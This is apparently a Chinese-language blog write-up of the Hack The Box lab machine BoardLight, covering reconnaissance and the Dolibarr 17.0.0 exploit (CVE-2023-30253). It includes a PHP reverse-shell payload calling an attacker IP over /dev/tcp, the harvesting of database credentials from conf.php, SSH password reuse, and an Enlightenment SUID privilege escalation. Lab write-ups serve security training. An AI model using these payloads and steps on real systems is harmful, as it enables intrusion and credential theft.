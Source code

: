 ```yaml
---
weight: 999
title: "BoardLight"
description: ""
icon: "article"
date: "2025-05-31T20:00:16+08:00"
lastmod: "2025-05-31T20:00:16+08:00"
draft: false
toc: true
---
```


# 信息搜集
ip：10.10.11.11
nmap：
```bash
nmap -T4 -A -v ip
```
![](https://gitee.com/inklong/blog-pic/raw/master/images/20250531201709370.png)

访问80端口
除了一个邮箱域名没有别的发现

![](https://gitee.com/inklong/blog-pic/raw/master/images/20250531202117912.png)

将ip和域名添加到hosts文件里，爆破一下子域名
```bash
gobuster vhost -u http://board.htb --append-domain -w C:\Users\Administrator\Desktop\Dictionary-Of-Pentesting-master\Subdomain\wydomain_top3000.txt
```
![](https://gitee.com/inklong/blog-pic/raw/master/images/20250531201140133.png)

将这个也添加到hosts文件
访问发现是登录界面，尝试弱口令
>admin:admin

搜索dolibarr 17.0.0的漏洞，找到CVE-2023-30253
https://github.com/dollarboysushil/Dolibarr-17.0.0-Exploit-CVE-2023-30253
```php
<?pHp exec("/bin/bash -c 'bash -i > /dev/tcp/10.10.16.33/1001 0>&1'"); ?>
```
反弹成功

![](https://gitee.com/inklong/blog-pic/raw/master/images/20250531202144847.png)

生成交互式shell
```bash
python -c 'import pty;pty.spawn("/bin/bash")'
```
搜索配置文件
```bash
find / -name conf.php 2>/dev/null
```
>/var/www/html/crm.board.htb/htdocs/conf/conf.php

打开找到数据库账号密码
>$dolibarr_main_db_user='dolibarrowner';
  $dolibarr_main_db_pass='serverfun2$2023!!';

翻找数据库无内容。home目录下存在larissa用户，尝试ssh，密码使用数据库密码
```bash
ssh larissa@10.10.11.11
```

![](https://gitee.com/inklong/blog-pic/raw/master/images/20250531202201878.png)

之后提权，先sudo -l无效，查找suid文件
```bash
find / -type f -perm -04000 -ls 2>/dev/null
```
发现使用Enlightenment，有CVE-2022-37706

![](https://gitee.com/inklong/blog-pic/raw/master/images/20250531202403943.png)

下载exp，开个python服务
```bash
python -m http.server 80
```
之后给执行权限，运行即可提权
![[Pasted image 20240726115017.png]]
或者使用LinPEAS辅助查找提权    